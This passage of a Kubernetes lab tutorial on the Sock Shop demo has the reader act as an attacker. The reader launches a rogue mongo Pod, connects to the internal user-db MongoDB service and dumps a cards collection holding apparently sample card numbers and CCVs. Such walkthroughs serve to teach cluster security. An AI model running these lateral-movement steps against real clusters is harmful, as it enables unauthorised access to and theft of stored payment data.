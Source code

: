 When the Pods are running, you can optionally test it locally by port-fowarding the `frond-end` service.

```shell
kubectl port-forward service/front-end -n sock-shop 8080:80
```

You can now access it on the browser at [localhost:8080](http://localhost:8080). Use the username and password `user / password` to login.

## Lateral Movement

As you can see in the [Architecture Diagram](https://github.com/microservices-demo/microservices-demo/blob/master/internal-docs/design.md#architecture), this application has a few components. Among them is the `user` component that interacts with the `user-db`, which is a [MongoDB](https://www.mongodb.com/) instance used to store users' information.

We will play the role of a malicious actor that has gained access to create a Pod in our cluster and use this access to connect to the `user-db`.

List the services and observe the `users-db` service responding on port `27017`.

```shell
kubectl get svc -n sock-shop
```

Let's launch a temporary Pod in interactive mode using the `mongo` image to execute commands against the `user-db`.

```shell
kubectl run rogue-1 --image=mongo:3.2 --restart=Never --rm -it -- /bin/bash
```

From inside the container run the following command to connect to the MongoDB instance:

```shell
root@rogue-1:/# mongo --host user-db.sock-shop.svc.cluster.local:27017
```

Now, from the mongo session, run:

```shell
> show dbs
local  0.000GB
users  0.000GB

> use users
switched to db users

> show collections
addresses
cards
customers

> db.cards.find()
{ "_id" : ObjectId("57a98d98e4b00679b4a830ae"), "longNum" : "5953580604169678", "expires" : "08/19", "ccv" : "678" }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b1"), "longNum" : "5544154011345918", "expires" : "08/19", "ccv" : "958" }
{ "_id" : ObjectId("57a98d98e4b00679b4a830b4"), "longNum" : "0908415193175205", "expires" : "08/19", "ccv" : "280" }
{ "_id" : ObjectId("57a98ddce4b00679b4a830d2"), "longNum" : "5429804235432", "expires" : "04/16", "ccv" : "432" }
```
